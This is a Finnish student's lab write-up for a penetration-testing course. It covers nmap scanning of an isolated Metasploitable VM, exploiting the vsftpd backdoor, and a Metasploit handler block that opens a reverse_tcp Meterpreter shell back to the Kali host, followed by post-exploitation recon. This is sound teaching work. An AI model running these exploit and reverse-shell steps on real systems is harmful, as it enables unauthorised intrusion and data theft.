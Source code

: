 # Social sploit

## Johdanto

Kotitehtävässä h2 tuli jatkaa kokeiluja porttiskannaamisesta (kotitehtävä h1) ja kokeilla muutamia hyökkäyskeinoja Metasploitablen avulla (aloitin tämän jo 1.11 oppitunnilla).

Asensin Metasploitablen ja Kalin sekä HostOnly-ethernetverkon jo aikaisempaa kotitehtävää varten, joten siirryin suoraan tehtävän pariin.

## Tiivistys (kohta X)

Kohdassa X luin "Conducting a penetration test with Metasploit" osuuden Jaswalin kirjasta ja tein seuraavat muistiinpanot;

-Murtotestaamisen avulla voidaan testata järjestelmän haavoittuvaisuuksia, vastatoimia ja mahdollisia reikiä puolustuksessa.

-Metasploitablessa voidaan lähettää erilaisia hyökkäyspaketteja turvallisessa ja vakaassa ympäristössä.

-Kompromisoidussa järjestelmässä voidaan käyttää Meterpreter-ohjelmaa, joka tarjoaa vakaammaan ja monipuolisemman alustan kompromisoidun kohteen tutkimiseen.

### Lähteet

Jaswal 2020: Conducting a penetration test with Metasploit. Luettavissa: https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31. Luettu: 6.11.2024

## Porttiskannaus (kohdat A-F)

Varmistin ensin tuttuun tapaan, että laitteet ovat irti Internetistä ja että ne saavat yhteyden toisiinsa `ping` komennolla. Molemmat virtuaalikoneet ovat HostOnly-verkossa, jonka lisäksi Kali-virtuaalikoneella on NAT-verkkokortti, joka on irroitettu.

![image](https://github.com/user-attachments/assets/f2a45fd1-2004-48b1-bf73-ef999d3e6b4a)

![image](https://github.com/user-attachments/assets/c3f97317-d817-4b9f-9fa9-b309df1677e5)

_Totesin testein, että koneet ovat irti Internetistä, mutta saavat HostOnly-verkossa toisiinsa yhteyden._

Seuraavaksi etsin Metasploitablen porttiskannaamalla ja tarkistin olevani oikeassa IP-osoitteessa selaimen avulla. Tätä varten avaan ensin Metasploitablen konsolin komennolla `msfconsole` ja tämän jälkeen suoritan aliverkon porttiskannauksen komennolla `db_nmap -sn 192.168.82.0/24`

![image](https://github.com/user-attachments/assets/49d9b573-0d62-43cd-8d61-04c1686fd9a2)

_Aliverkon porttiskannaus_

Aliverkko `192.168.82.0/24` skannattiin ja lopputuloksena 256 IP-osoitteesta vain kaksi oli käytössä, eli Kali osoitteessa `192.168.82.4` ja toinen kone osoitteessa `192.168.82.3`. Nopea Firefox-haku totesi jälkimmäisen osoitteen omaksi Metasploitable-virtuaalikoneeksi.

![image](https://github.com/user-attachments/assets/b5e4c63e-c30a-451a-b11d-1ea532a33242)

_Metasploitablen IP-osoite hakukoneessa._

Seuraavaksi skannasin Metasploitablen perusteellisesti ja tallensin tiedot tarkasteltavaksi. Tämä järjestyy komennolla `db_nmap -A -p- 192.168.82.3` josta `db_` osio tallentaa tulosteen Metasploitablen tietokantoihin ja `-A -p-` spesifoi haun olevan kattava ja koskevan kaikkia portteja. Tämän jälkeen voin käyttää milloin vaan komentoja `hosts` ja `services` skannauksen tuloksien tarkastelua varten. Voin myös suodattaa näistä tuloksista tietoja. Metasploitable ei tunnu tykkäävän merkistä `|`, joten käytin komentoa `services -S apache` suodattaakseni vain apacheen liittyvät tulokset.

![image](https://github.com/user-attachments/assets/80d91c19-1abd-409f-8a49-63f64ae7d25c)

_Porttiskannauksen tulosten tarkastelu jälkeenpäin_

![image](https://github.com/user-attachments/assets/eafd7ac0-f5cf-4545-95e4-d936b4718780)

_Porttiskannauksen tulosten suodattaminen_

Käytin tämän keinon lisäksi myös komentoa `nmap -A -p- -oA scan_result 192.168.82.3`, joka tallentaa samat tiedot kolmeen eri tiedostoon; `scan_result.nmap`, `scan_result.xml` ja `scan_result.gnmap`. Näistä `.nmap` on nmap tuloste skannauksesta, `.xml` sama tuloste `XML` muodossa ja `.gnmap` on helposti `grep`-komennolla haettava tiedosto.

Näistä skannaustulosteista `db_nmap` on hyvä ja nopea saada Metasploitablen konsoliin tarvittavat tiedot jatkotoimia varten. `nmap -oA` sen sijaan antoi monimuotoisemman tulosteen, jota voi olla helpompi hyödyntää esim. työkaluissa ja skriptaamisessa. Käytin itse mielummin `db_nmap`-tulostetta sen käyttöhelppouden vuoksi kunnes tarvitsin tarkempaa tietoa tai tietoa helpommasti tulkittavassa muodossa.

### Lähteet

## Tunkeutuminen (kohdat G-N)

Seuraavaksi kokeilin murtautua Metasploitableen käyttäen takaovea portissa 21 (`vsftpd`). Pystyin tarkistamaan tämän heikkouden olemassaolon aikaisemmin käytetyllä `services -S`-komennolla. Tämän jälkeen valitsin hyökkyksen sekä maalin ja käskin aloittaa hyökkäyksen `exploit`-komennolla.

![image](https://github.com/user-attachments/assets/95bbeb08-bafa-47ed-b5de-82e796431f30)

_Onnistunut vsftpd hyökkäys_

Onnistuneen hyökkäyksen jälkeen aloin valmistelemaan Meterpreteriä, jotta voisin kerätä levittämiseen tarvittavaa tietoa tehokkaasti. Aluksi asetin `vsftpd`-yhteyden taustalle komennolla `background` ja suoritin Meterpreter-yhteyden luomisen seuraavalla komentosarjalla;

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.82.4
set LPORT 4443
exploit -j
```

Tämä komentopätkä kertoi Meterpreterille tärkeät tiedot kohteesta sekä omasta koneestani. Tämän jälkeen voin päivättää nykyisen yhteyden `sessions 1` komennolla `sessions -u 1` ja täten saada Meterpreter toimimaan `vsftpd`-shellissä komennolla `sessions -i 2`

![image](https://github.com/user-attachments/assets/19638edd-d664-4ea4-9c94-377d808ce815)

_Meterpreter käyttöön_

Nyt kun sain Meterpreterin käyttöön, oli helppoa kerätä tärkeää tietoa koneesta jatkotoimien kannalta. Levittäytymiseen tähtäävä toimija saattaa olla kiinnostunut esimerkiksi kolmesta seuraavasta tiedoista;

```
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > ipconfig
```

Komento `sysinfo` kertoi koneen melko traagisesta tietoturvatilasta jossa käyttöjärjestelmä, kerneli ja arkkitehtuuri ovat vanhentuneita tai vanhaa teknologiaa. Tämä tarjoaa runsaasti jatkohyökkäysmahdollisuuksia.

```
meterpreter > ipconfig
Interface  2
============
Name         : eth0
Hardware MAC : 08:00:27:29:72:cb
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.82.3
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::a00:27ff:fe29:72cb
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Komento `ipconfig` kertoi lisää koneen verkosta. Sain tätä kautta tietoon aliverkkomaskin `255.255.255.0` jota voi hyödyntää verkon skannaamisessa. Voimme myös olettaa laitteen olevan virtuaalikone sillä MAC-osoite `08:00:27` yhdistetään yleensä VirtualBoxiin.

Lopuksi ajoin komennon `ps`, joka kertoi koneen prosesseista. Huomattavia olivat esimerkiksi `4194 mysqld` josta voisi kaivaa kriittistä dataa, `distccd`, jonka tunnettu heikkous sallii koodin ajamisen etänä sekä `4054 named` eli BIND DNS-palvelin, jotka ovat tunnetusti alttiita hyökkäyksille. Näiden lisäksi prosesseissa on lukuisia muita heikkouksia joiden avulla voisi levittäytyä järjestelmään.

### Lähteet

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

## Yleiset lähteet

Pohjana Tero Karvinen 2024: Tunkeutumistestaus -kurssi. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/.

Metaspoitable exploitability guide. Luettavissa: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/. Luettu 6.11.2024

Tätä dokumenttia saa kopioida ja muokata GNU General Public License (versio 2 tai uudempi) mukaisesti. http://www.gnu.org/licenses/gpl.html

